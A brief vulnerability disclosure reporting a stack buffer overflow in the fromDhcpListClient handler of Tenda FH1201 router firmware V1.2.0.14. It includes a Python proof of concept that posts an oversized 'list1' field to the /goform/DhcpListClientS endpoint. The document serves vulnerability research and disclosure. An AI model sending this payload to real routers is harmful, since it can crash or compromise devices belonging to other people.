


## fromDhcpListClient-1

Tenda [FH1201V1.0BR_V1.2.0.14(408)_EN](https://www.tendacn.com/download/detail-3322.html) has a stackoverflow vulnerability。

### Description


In function `fromDhcpListClient` it reads user input `nptr` then read `list[idx]` without any length check, which may overflow the stack-based buffer v8.




### PoC

```python
import requests

IP = "192.168.85.143"
url = f"http://{IP}/goform/DhcpListClientS"
payload = "a" * 0x1000

data = {"LISTLEN": 1, "page": 1, "list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

